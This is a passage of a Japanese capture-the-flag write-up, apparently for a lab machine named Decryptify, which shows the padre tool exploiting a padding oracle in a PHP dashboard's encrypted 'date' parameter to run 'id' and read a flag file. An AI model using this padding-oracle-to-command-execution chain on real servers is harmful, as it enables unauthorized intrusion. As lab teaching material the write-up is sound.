 ```html
<form method="get">
  <input type="hidden" name="date" value="dIfB[REDACTED]=" />
</form>
```

一件 Base64 のようだが、正常にデコードできない。 dashboard.php?date=xxxxx
のように適当に入れて GET すると、フッター部分でパディングエラーが発生する。しかし、これが何かに使えるようには思えない。

`Warning: openssl_decrypt(): IV passed is only 4 bytes long, cipher expects an
IV of precisely 8 bytes, padding with \0 in /var/www/html/dashboard.php on line
28`

ここでギブアップ。

### パディングオラクル

https://github.com/glebarez/padre

ハッシュ値を復号化

```shell
$ padre -cookie 'PHPSESSID=（PHPセッションID）; role=（ロールクッキー）' -u 'http://decryptify.thm:1337/dashboard.php?date=$' 'dIfB[REDACTED]='
[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: decrypt
[1/1] date +%Y\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08        [24/24] | reqs: 3695 (50/sec)
```

id コマンドを暗号化

```shell
$ padre -cookie 'PHPSESSID=（PHPセッションID）; role=（ロールクッキー）' -u 'http://decryptify.thm:1337/dashboard.php?date=$' -enc 'id'
[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: encrypt
[1/1] o7[REDACTED]aQ==
```

これを date パラメータとしてブラウザで GET すると、フッター部分にコマンドの出力が表示される。

```
© uid=33(www-data) gid=33(www-data) groups=33(www-data) Decryptify
```

最終目的の、フラグを読むコマンド

```shell
$ padre -cookie 'PHPSESSID=（PHPセッションID）; role=（ロールクッキー）' -u 'http://decryptify.thm:1337/dashboard.php?date=$' -enc 'cat /home/ubuntu/flag.txt'
[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: encrypt
[1/1] kl[REDACTED]cg==
```
